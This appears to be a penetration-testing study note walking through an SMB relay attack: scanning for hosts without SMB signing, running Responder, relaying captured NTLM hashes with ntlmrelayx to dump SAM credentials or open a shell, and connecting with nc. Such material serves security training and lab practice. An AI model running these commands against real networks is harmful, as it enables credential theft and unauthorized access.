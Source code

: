 # SMB Relay Attacks Overview

## What is it?

*   instead of cracking hashes gathered with Responder, we can instead relay those hashes to

    specific machines and potentially gain access

## Requirements

* SMB Signing must be disabled on the target
* relayed user credentials must be admin on machine
* cannot relay a hash to a machine that you got from that machine

## Gaining Access with SMB Relay

### Step 1: Discovering Hosts with SMB Signing Disabled

```bash
nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.0.1/24
```

* github has scripts
* Nessus can check too

### Step 2: Put Targets in a Txt

```bash
gedit targets.txt
```

* paste the ip's of the targets with disabled SMB signing

### Step 3: Edit Responder

```bash
sudo gedit /etc/responder/Responder.conf
```

* turn SMB and HTTP to OFF

### Step 4: Run Responder

```bash
sudo responder -I eth0 -rdw
```

### Step 5: Set Up The Relay

```bash
sudo [ntlmrelayx.py](http://ntlmrelayx.py/) -tf targets.txt -smb2support
```

* if you have to restart it: kill -9&#x20;
* can use the -c flag to run commands once it is connected or -e to setup a shell, like meterpreter

### Step 6: SMB Relay Fail Event Occurs

* like a user typing in the wrong network drive

```bash
\\<attacker ip>
#can put this into the file browser on the victim machine to force a fail
```

### Step 7: Win

* it runs attack and dumps files, like SAM

### ntlmrelayx Shell

* the output after running the above steps should say something about a SMB shell

```bash
nc 127.0.0.1 11000
```

* type help to see the commands that can be used
